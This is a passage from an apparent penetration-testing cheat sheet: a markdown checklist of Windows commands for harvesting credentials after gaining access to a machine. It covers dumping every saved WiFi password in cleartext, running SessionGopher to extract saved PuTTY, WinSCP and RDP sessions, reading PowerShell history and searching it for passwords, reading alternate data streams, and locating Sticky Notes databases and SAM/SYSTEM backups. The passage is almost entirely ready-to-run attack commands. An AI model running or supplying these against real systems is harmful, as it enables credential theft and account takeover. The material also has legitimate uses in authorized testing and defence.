 	Bookmarks #Chrome
	History #Chrome
	TypedURLsTime #IE
	TypedURLs #IE
	```
- [ ] Creds from WiFi
	```powershell
	# 1. Find AP SSID
	netsh wlan show profile
	# 2. Get cleartext password
	netsh wlan show profile <SSID> key=clear
	# OR
	# Go hard and grab 'em all
	cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
	```
- [ ] Creds from sticky notes app
	```powershell
	C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
	```
- [ ] Creds stored in services
	```powershell
	# SessionGopher to grab PuTTY, WinSCP, FileZilla, SuperPuTTY, RDP
	# https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
	Import-Module path\to\SessionGopher.ps1;
	Invoke-SessionGopher -AllDomain -o
	Invoke-SessionGopher -AllDomain -u domain.com\adm\-arvanaghi -p s3cr3tP@ss
	```
- [ ] Creds from Powershell History
	```powershell
	type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
	type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
	type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	cat (Get-PSReadlineOption).HistorySavePath
	cat (Get-PSReadlineOption).HistorySavePath | sls passw
	```
- [ ] Creds from [alternate data stream](https://owasp.org/www-community/attacks/Windows_alternate_data_stream)
	```powershell
	Get-Item -path <filename> -Stream *
	Get-Content -path <filename> -Stream <keyword>
	```
- [ ] SAM & SYSTEM bak
	```powershell
	# Usually %SYSTEMROOT% = C:\Windows
	%SYSTEMROOT%\repair\SAM
	%SYSTEMROOT%\System32\config\RegBack\SAM